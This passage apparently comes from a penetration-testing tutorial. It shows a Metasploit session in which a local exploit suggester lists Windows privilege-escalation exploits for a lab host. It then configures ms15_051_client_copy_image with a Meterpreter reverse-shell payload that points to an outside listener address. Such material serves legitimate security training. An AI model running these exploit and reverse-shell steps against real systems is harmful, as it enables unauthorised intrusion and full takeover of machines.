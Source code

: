 ```shell-session


msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 34 exploit checks are being tried...
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > 
```

Running the recon module presents us with a multitude of options. Going through each separate one, we land on the `ms15_051_client_copy_image` entry, which proves to be successful. This exploit lands us directly within a root shell, giving us total control over the target system.

**MSF - Privilege Escalation**

Meterpreter

```shell-session
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms15_051_client_copy_images

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp


msf6 exploit(windows/local/ms15_051_client_copy_image) > show options

Module options (exploit/windows/local/ms15_051_client_copy_image):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     46.101.239.181   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


msf6 exploit(windows/local/ms15_051_client_copy_image) > set session 1

session => 1

```